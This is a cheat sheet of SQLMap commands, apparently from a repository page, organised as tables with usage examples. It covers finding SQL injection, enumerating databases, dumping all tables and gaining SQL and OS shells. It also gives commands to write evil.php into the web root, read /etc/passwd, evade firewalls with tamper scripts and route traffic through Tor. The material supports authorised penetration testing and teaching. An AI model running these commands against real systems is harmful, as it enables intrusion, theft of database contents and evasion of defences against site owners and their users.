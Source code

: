 ## SQLMap Commands Cheat Sheet


### 🔍 1. Discovery & Detection
Commands to identify SQL injection vulnerabilities and types.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL>` | Basic SQL injection test. |
| `sqlmap -u <target_URL> --technique=BLIND` | Test for blind SQL injection. |
| `sqlmap -u <target_URL> --technique=TIME` | Specifically test for time-based blind injection. |
| `sqlmap -u <target_URL> --risk=3 --level=5` | Increase risk and level for more thorough testing. |
| `sqlmap -u <target_URL> --crawl=3` | Crawl target site to find injectable URLs. |
| `sqlmap -u <target_URL> --forms` | Test all forms on the page for injection. |
| `sqlmap -u <target_URL> --batch` | Skip user prompts for automated testing. |

---

### 🏗️ 2. Database Structure Enumeration
Commands to map out databases, tables, and columns.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --dbs` | Enumerate all databases. |
| `sqlmap -u <target_URL> -D <database_name> --tables` | List tables in a database. |
| `sqlmap -u <target_URL> -D <database_name> -T <table_name> --columns` | List columns in a table. |

---

### 🧾 3. Data Extraction
Commands to retrieve data from database tables.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump` | Dump data from a specific table. |
| `sqlmap -u <target_URL> --dump-all` | Dump all data from all databases. |
| `sqlmap -u <target_URL> --search -C <column_name>` | Search for specific columns across databases. |

---

### 🖥️ 4. Shell Access & File Operations
Commands for advanced exploitation and server interaction.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --sql-shell` | Open interactive SQL shell. |
| `sqlmap -u <target_URL> --os-shell` | Try to get an OS shell on the server. |
| `sqlmap -u <target_URL> --file-write=evil.php --file-dest=/var/www/html/evil.php` | Upload a file to the target server. |
| `sqlmap -u <target_URL> --file-read=/etc/passwd` | Read a file from the server. |

---

### 🧰 5. Customization & Headers
Fine-tune HTTP requests with headers, cookies, and method.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --cookie="SESSIONID=xyz"` | Include cookies in requests. |
| `sqlmap -u <target_URL> --header="X-Custom: value"` | Add custom HTTP headers. |
| `sqlmap -u <target_URL> --user-agent="CustomAgent"` | Set a custom User-Agent header. |
| `sqlmap -u <target_URL> --referer="https://google.com"` | Set a custom Referer header. |
| `sqlmap -u <target_URL> --method=POST --data="username=admin&password=pass"` | Use POST method with custom data. |

---

### 🛡️ 6. Evading Detection
Options to bypass Web Application Firewalls (WAFs) and filtering.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --tamper=space2comment` | Use tamper script to evade filters. |
| `sqlmap -u <target_URL> --random-agent` | Use a random User-Agent for requests. |
| `sqlmap -u <target_URL> --tor --tor-type=SOCKS5 --check-tor` | Route traffic through Tor network for anonymity. |
| `sqlmap -u <target_URL> --waf` | Detect and attempt to bypass WAF. |

---

### 🧪 7. Output & Logging
Control output saving and verbosity.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --output-dir=outputs` | Save all output to the specified directory. |
| `sqlmap -u <target_URL> --verbose=3` | Show detailed verbose output. |
| `sqlmap -u <target_URL> -v 0` | Suppress most output (quiet mode). |

---

### 📁 8. Configuration & Help
Helpful commands for configuration and assistance.

| Command | Description |
|---------|-------------|
| `sqlmap --help` or `sqlmap -h` | Show help and usage information. |
| `sqlmap -u <target_URL> --update` | Update SQLMap to the latest version. |
| `sqlmap -u <target_URL> --conf=config.txt` | Load options from a configuration file. |

---

## Example Usage {.cols-1}

```bash
# Test a URL for SQL Injection
sqlmap -u "http://example.com/vuln.php?id=1"

# Enumerate databases
sqlmap -u "http://example.com/vuln.php?id=1" --dbs

# List tables in 'users' database
sqlmap -u "http://example.com/vuln.php?id=1" -D users --tables

# Dump data from 'accounts' table in 'users' database
sqlmap -u "http://example.com/vuln.php?id=1" -D users -T accounts --dump

# Use a proxy for traffic analysis
sqlmap -u "http://example.com/vuln.php?id=1" --proxy="http://127.0.0.1:8080"

# Run with custom HTTP header
sqlmap -u "http://example.com/vuln.php?id=1" --header="Authorization: Bearer token123"

